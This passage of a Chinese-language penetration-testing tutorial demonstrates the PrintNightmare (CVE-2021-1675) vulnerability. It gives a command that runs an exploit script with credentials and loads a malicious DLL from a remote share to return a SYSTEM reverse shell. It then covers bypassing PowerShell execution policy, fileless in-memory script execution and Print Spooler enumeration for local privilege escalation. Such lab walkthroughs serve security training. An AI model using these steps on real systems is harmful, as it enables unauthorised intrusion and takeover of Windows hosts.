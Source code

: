 首先，我们需要在攻击者计算机上启动 443 端口的监听器，因为这也是 DLL 反向连接所选择的端口。接着，就可以使用以下命令来利用 print spooler 服务了：

    python3 CVE-2021-1675.py juggernaut.local/cmarko:'N0cturn@l21'@172.16.1.50 '\\172.16.1.30\share\nightmare64.dll'
    

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250305173823719-27620289.png)

可以看到利用程序正在开始做一些事情。

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250305173823921-2129218878.png)

然后回到我们的监听器，可以看到一个 SYSTEM shell 已经建立成功！

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250305173823124-899477567.png)

**

2、CVE-2021-1675 – PrintNightmare LPE（本地权限提升）

**
----------------------------------------------------

上面的 RCE 示例结束后，现在来看看我们如何使用两种不同的工具在本地利用这一漏洞。

首先，我们将编译并使用 SharpPrintNightmare.exe 再次执行恶意 DLL。其次，我们将探索使用 PowerShell 脚本来利用该服务并创建一个新的管理员用户。而在 PowerShell 示例中，将使用 Invoke-Expression (IEX) cmdlet 直接将脚本下载到内存中并执行（注：又叫文件不落地执行）。

> 对于此示例，假设我们无法提供任何用户凭据，但是能够利用一个 Web 漏洞获得一个 cmarko 普通用户身份的 shell。这意味着我们获得了立足点，但是不知道用户的密码。

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250305173824048-319018422.png)

#### **

2.1、本地枚举 Print Spooler 服务

**

在开始枚举服务之前，我们希望跳转到 PowerShell shell 中去。【虽然并不是必须要跳转到 powershell 中才能进行枚举，但为后文要频繁使用 powershell 做准备，先提前熟悉下。】

要跳转到 PowerShell shell，可以简单地在当前 shell 中使用以下命令【注：这通常可能会导致 cmd shell 挂起或卡死。】：

    powershell -ep bypass
    

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250305173824018-1382222429.png)

> 如果上述命令不起作用，导致 cmd shell 挂起或卡死，则可以使用 [Nishang](https://github.com/samratashok/nishang) 的反向 TCP 脚本以将 cmd shell 升级到 powershell shell；亦或使用 `powershell -c “command”` 的方式去执行 PowerShell 的 cmdlet 命令。

在 PowerShell shell 中，可以使用以下命令轻松枚举打印服务是否正在运行：

    Get-Service "Spooler"
    

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250305173823900-1457255293.png)

这表明 Print Spooler 服务当前正在运行，也意味着此受害者机器容易受到攻击！
